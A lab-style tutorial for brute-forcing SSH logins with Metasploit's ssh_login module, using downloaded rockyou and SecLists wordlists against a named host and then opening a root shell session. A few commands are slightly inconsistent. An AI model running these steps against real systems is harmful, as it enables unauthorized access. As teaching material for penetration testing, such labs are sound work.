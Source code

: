 # Bruteforcing-SSH
========

This is a demo which will exploit SSH on a linux host. Once SSH access is gained, privilege escalation is used to become root. 


Downloading Dictionary Files
------------

First we need some get our hands on some basic text files containing a list of commonly used usernames and passwords. These links are subject to change and for the sake of the lab/demo, these dict files will likely be available from this git repo in the future

Download a list of common users & weak passwords
    
    curl https://download.weakpass.com/wordlists/90/rockyou.txt.gz | gunzip > /tmp/passwords.txt
    curl https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt > /tmp/users.txt

Just so you are familiar, take at the content and format of the files 

    head /tmp/passwords.txt
    head /tmp/users.txt



# Installing Metasploit
------------

Download the latest version of Metasploit Framework (OSS)

    curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall

Set Permissions 

    chmod 755 msfinstall

 Run the install script

    ./msfinstall

By default metasploit framework installs it's self to `/opt/` let's take a look and add that to our path
    
    ls /opt/
    echo $PATH

Add the `/opt/metasploit-framework/bin/` directory to our path


    PATH=/opt/metasploit-framework/bin/:$PATH


Add Metasploit repo to our system and make sure we have the latest version.

    msfupdate



# Using Metasploit
------------

Launch the metasploit framework console

 
    msfconsole


List the available exploits modules for metasploit


    show exploits

Because there are over 2000 modules it may make more sense to search for one we're looking for
 
    search ssh login

For this demo select the auxiliary/scanner/ssh/ssh_login exploit module

    use auxiliary/scanner/ssh/ssh_login


List the options available for this module

    options

Define options for ssh_login module to launch a brute force attack against a target host

    set stop_on_success
    set pass_file /tmp/password.txt
    set user_file /tmp/users.txt
    set threads 10


Define a target
    
    set rhost graffias.openincite.net

Launch the brute force attack

    exploit

if Metasploit successfully authenitcates with a usr/pass provided in our lists you'll see a message 
`[+] 192.168.0.136:22 - Success: 'root:password'`


Not only did metasploit find a combination that successfully authenticates but it also left a session open. List the open sessions

    sessions

To interact with the open session use the sessions command: `sessions -i <session id>`
`sessions -i 1`

Now you are connected to a shell on the target. try typing some basic shell commands

    hostname -f
    uname -a

# Enumerating a Host
------------

connect to the target using the discovered credentials

    ssh graffias.openincite.net -l root
